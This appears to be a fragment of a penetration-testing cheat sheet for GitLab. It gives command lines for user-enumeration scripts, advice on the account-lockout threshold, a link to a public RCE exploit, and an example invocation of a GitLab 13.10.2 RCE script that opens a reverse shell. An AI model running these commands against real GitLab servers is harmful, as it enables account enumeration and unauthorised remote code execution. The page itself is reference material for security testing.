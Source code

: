 ```
./gitlab_userenum.sh --url http://<domain>:<port>/ --userlist <users.txt>
```

or:

```
python3 gitlab_userenum.py --url http://<domain>:<port>/ --wordlist <pathWordlist>
```

Caution ->  GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.

> Authenticated Remote Code Execution (RCE)

Exploit RCE: https://www.exploit-db.com/exploits/49951

Example of reverse shell:

```
python3 gitlab_13_10_2_rce.py -t http://<domain>:<port> -u <user> -p <password> -c '<reverseShellCode>'
```


